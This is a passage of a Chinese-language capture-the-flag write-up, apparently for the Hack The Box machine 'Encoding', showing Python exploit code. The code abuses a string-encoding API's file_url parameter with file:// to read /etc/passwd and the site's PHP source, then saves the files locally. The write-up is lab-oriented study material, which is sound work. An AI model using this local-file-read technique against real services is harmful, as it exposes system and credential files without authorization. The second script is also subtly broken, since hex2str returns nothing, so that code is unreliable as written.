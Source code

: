 除了版本不同，功能点是一样得差不多

## source-code & git

### 源代码阅读

尝试指定文件路径进行encoding的功能点，构造对应的exp：

```python
import requests

def get_file(file):
    data = {
        'action': 'str2hex',
        'file_url': f"file://{file}"
    }
    http_proxy = {'http': 'http://127.0.0.1:8080'}
    response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=data,proxies=http_proxy)
    return response.json()["data"]

def hex2str(data):
    json_data = {
    'action': 'hex2str',
    'data': f'{data}',
    }
    http_proxy = {'http': 'http://127.0.0.1:8080'}
    response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data,proxies=http_proxy)
    print(response.json()["data"])

file = "/etc/passwd"    # 改成对应地址
data = get_file(file)
hex2str(data)
```

可以获取到

![20230423](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230423_1.png)

稍微改写了一下，遍历然后输出

```python
files = ["/etc/passwd", "/var/www/html/index.php","/var/www/html/handler.php"]
for file in files:
    data = get_file(file)
    file_content = hex2str(data)
    file_name = file.split('/')[-1]
    print(file_name)
    with open(f'{file_name}', 'a') as f:
        f.write(file_content)
```

然后看 `handler.php` 下的内容
